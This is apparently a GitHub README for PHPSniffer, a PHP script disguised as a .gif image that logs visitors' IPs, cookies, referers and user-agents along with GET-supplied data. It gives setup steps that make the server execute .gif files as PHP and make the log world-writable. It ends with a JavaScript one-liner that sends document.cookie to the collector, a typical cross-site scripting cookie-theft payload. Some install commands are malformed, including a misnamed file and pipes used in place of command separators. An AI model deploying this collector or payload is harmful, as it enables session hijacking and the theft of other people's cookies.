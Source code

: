PHPSniffer
==========

Simple PHP script to receive GET data and log it to txt file.

#### Install ####

Clone from GIT:

```git clone https://github.com/codebyzen/PHPSniffer```

Change rights & rename:
```mv img.php ing.gif | chmod +x ./img.gif```

To setup your Apache server use .htaccess
```AddType application/x-httpd-php .gif```

or if PHP as CGI
```AddHandler application/x-httpd-php .gif```

If you use NGINX use below location config:
```
location ~ /path/.*\.(gif|jpg|png)$ {
	fastcgi_index index.php;
	include /Applications/MAMP/conf/nginx/fastcgi_params; # just for example maybe like fastcgi_params
	fastcgi_pass unix:/Applications/MAMP/Library/logs/fastcgi/nginxFastCGI_php7.2.8.sock; # just for example maybe like /tmp/fastcgi.sock
	fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
}
```

Create log file and set propper rights:

```touch log.txt | chmod 777 log.txt```

##### Simple Log File #####
```Access time, IP, Server-Cookie, Cookie, Referer, User-Agent, Host, Query-String```


#### Usage ####
You can direct access to script file `http://site.tld/path/img.gif` after that you see little smile face. If all ok log.txt file will appended with your ip, ua, time and other.
To pass the useful data use GET parametres: `http://site.tld/path/img.gif?c=simple%20data%you%20need`. Data from `c` wil be added to log.
If you don't need smile face image, set `i=1` param to output 1x1 transparent pixel.

Simple JS script for tests:
```i=new/**/Image();i.src='http://host/path/img/gif?c='+escape(document.cookie)+'&i=1';```
